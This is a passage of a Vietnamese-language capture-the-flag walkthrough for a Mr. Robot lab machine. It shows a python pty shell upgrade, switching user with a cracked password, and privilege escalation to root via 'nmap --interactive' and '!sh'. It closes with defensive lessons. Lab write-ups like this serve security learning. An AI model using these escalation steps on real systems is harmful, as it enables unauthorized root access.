 <p>echo &quot;import pty; pty.spawn(&#39;/bin/bash&#39;)&quot; &gt; /tmp/asdf.py</p>
<p>Câu lệnh trên thực hiện import các câu lệnh bash từ thư viện <strong>pty</strong> cho phép thực thi các lệnh trên máy chủ. Để chạy đoạn script này gõ câu lệnh như sau:</p>
<pre><code class="lang-python"><span class="hljs-keyword">python</span> /tmp/asdf.<span class="hljs-keyword">py</span>
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-24.png#full" alt="mr-robot-24.png"></p>
<p>Bây giờ chúng ta đang ở trong trạng thái có thể thực hiện các lệnh giống như Terminal của Linux. Nếu lưu ý một tý, có thể thấy user mặc định của máy chủ này là <strong>daemon</strong>. Chúng ta cần phải đăng nhập với user là robot, có thể thực hiện các lệnh dưới đây:</p>
<pre><code class="lang-bash"><span class="hljs-attribute">su - robot</span>
</code></pre>
<p>Nó yêu cầu chúng ta phải nhập mật khẩu, chúng ta hãy lấy mật khẩu mà chúng ta vừa giải mã ra được.</p>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-25.png#full" alt="mr-robot-25.png"></p>
<p>Bây giờ chúng ta có thể xem được dữ liệu của chìa khóa thứ 2 rồi, thực hiện câu lệnh này:</p>
<pre><code class="lang-bash">cat <span class="hljs-type">key</span><span class="hljs-number">-2</span>-of<span class="hljs-number">-3.</span>txt
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-26.png#full" alt="mr-robot-26.png"></p>
<h2 id="buoc-8-tim-chia-khoa-cuoi-cung">Bước 8: Tìm chìa khóa cuối cùng</h2>
<p>Chúng ta thử vào thư mục root bằng câu lệnh sau:</p>
<pre><code class="lang-bash"><span class="hljs-built_in">cd</span> /root
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-27.png#full" alt="mr-robot-27.png"></p>
<p>Chúng ta đành phải truy cập thư mục root thông qua công cụ <strong>Nmap</strong>. Ngoài tính năng quét mạng ra, nó còn có thể giúp chúng ta tương tác với hệ điều hành. Chúng ta sẽ thực hiện câu lệnh sau để tương tác với hệ điều hành.</p>
<pre><code class="lang-bash">nmap <span class="hljs-comment">--interactive</span>
</code></pre>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-28.png#full" alt="mr-robot-28.png"></p>
<p>Đoạn code trên sẽ cho phép chúng ta leo thang đặc quyền (<strong>privilege escalation</strong>) và chiếm quyền kiểm soát hệ thống. Chúng ta sẽ kiểm tra thư mục root với các câu lệnh sau:</p>
<pre><code class="lang-bash">!<span class="hljs-keyword">sh</span>
whoami
<span class="hljs-keyword">cd</span> /root
<span class="hljs-keyword">ls</span>
</code></pre>
<p>Chúng ta đã tìm được chìa khóa thứ ba. Chúng ta hiển thị dữ liệu chìa khóa với cách thức như trên. Dưới đây là kết quả:</p>
<p><img src="https://raw.githubusercontent.com/minhgiau998/image/develop/2020/09/24/mr-robot-29.png#full" alt="mr-robot-29.png"></p>
<h1 id="ket-luan">Kết Luận</h1>
<p>Vừa rồi chúng ta đã thực hiện rất nhiều thủ thuật để có thể tìm thấy 2 chìa khóa còn lại. Từ đây chúng ta rút được nhiều kinh nghiệm như sau:</p>
<ul>
<li>Cần phải kiểm tra file robots.txt kỹ càng để cho phép truy cập hay không truy cập thư mục nào.</li>
<li>Giao thức http thực sự không an toàn. Cần phải nâng cấp thành chứng chỉ SSL để được mã hóa khi gửi dữ liệu lên server.</li>
<li>Cần phải đặt mật khẩu có độ dài và độ phức tạp lớn.</li>
</ul>
